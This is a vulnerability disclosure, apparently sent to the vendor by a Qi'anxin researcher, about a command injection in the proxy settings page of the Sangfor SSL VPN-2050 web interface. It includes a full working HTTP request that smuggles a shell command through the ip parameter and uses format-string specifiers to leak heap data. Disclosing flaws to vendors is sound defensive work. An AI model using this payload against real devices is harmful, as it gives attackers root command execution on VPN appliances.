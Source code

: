 Hi,

I am eack from Codesafe Team of Legendsec at Qi'anxin Group.

Recently, I found that the Sangfor SSL VPN-2050 has a command injection vulnerability. The attacker can obtain the root shell and execute arbitrary commands. The tested device firmware version is M7.6.3. The vulnerability details are as follows:

This vulnerability is due to a logic vulnerability in the filter function, resulting in command execution of the ip and port parameters.

The vulnerability exists in gcs_webui.cgi, which corresponds to the IP address and port options under "System Maintenance - Proxy Settings" on the administration page.

Vulnerability code:
![1.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622195475389.png)

Guess the developer wants to filter the ip and port parameters by the str_filter function. In the first if judgment, the str_filter function needs to return 0 to continue the following processing of the port parameter. 
The implementation of the str_filter function is as follows:
![2.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561622267799970.png)

In this while loop, v2 does not play any role, the range of filtering characters is also problematic, resulting in as long as the number and '/' will fall into the while loop, always write data to a1, but if it is other characters For example, if the letter, '%', etc., it will return 0, but this just meets the judgment of if, and can continue the processing. This logic, just enough to constantly cover the address on the heap, leaks the data on the heap through formatted strings such as %s and %x.
The last parameter is spliced, and the command is executed by the call_DoShellProxy function to call popen.

The payload of the vulnerability recurrence is as follows:
Command injection through the ip parameter on port 1000:

GET /cgi-bin/gcs_webui.cgi?requestarg=2&requestname=17&csrf=119a080699cc70839b6c8b434bcca478&enabled=1&ip=10.10.10.1';ping%2010.92.2.110;echo'&port=1111111%s%x&auth=2&name=aaaaaaa%s&passwd=1230000000000000000000000000000000000000 HTTP/1.1
Host: 10.92.2.17:1000
Accept: /
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36
Referer: http://10.92.2.17:1000/html/gcs_proxyset.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: language=zh_CN; PHPSESSID=e116e0e2c17bed877d1f825a77e6babf; sinfor_session_id=W38F984ADB3BE348FEF4EE72B628B3C6; x-anti-csrf-gcs=A160FB2300484911
Connection: close

Under the terminal you can see that the command is executed:
![5.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561626103122469.png)
You can also see that the command is executed by capturing the packet:
![4.PNG](http://security.sangfor.com.cn:8000/ueditor/php/upload/image/20190627/1561624621269779.png)
Can fix the vulnerability by filtering the passwd parameter.

Best wishes
